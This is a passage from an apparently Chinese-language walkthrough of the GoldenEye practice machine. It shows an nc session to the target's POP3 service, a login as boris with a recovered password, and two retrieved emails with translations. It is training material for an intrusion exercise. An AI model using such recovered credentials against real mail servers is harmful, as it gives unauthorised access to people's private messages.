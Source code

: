 查看boris用户邮件信息

```
┌──(root💀kali)-[~/Desktop]
└─# nc 192.168.32.217 55007            
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.
LIST
+OK 3 messages:
1 544
2 373
3 921
.

```

```
RETR 1
+OK 544 octets
Return-Path: <root@127.0.0.1.goldeneye>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id D9E47454B1
        for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
Message-Id: <20180425022326.D9E47454B1@ubuntu>
Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
From: root@127.0.0.1.goldeneye

Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here.
```

> 鲍里斯，这是管理员。您可以在此处与同事和学生进行电子交流。我不会扫描电子邮件是否存在安全风险，因为我相信你和这里的其他管理员。

```
RETR 2
+OK 373 octets
Return-Path: <natalya@ubuntu>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id C3F2B454B1
        for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
Message-Id: <20180425024249.C3F2B454B1@ubuntu>
Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
From: natalya@ubuntu

Boris, I can break your codes!
```

> 鲍里斯，我可以破解你的密码！
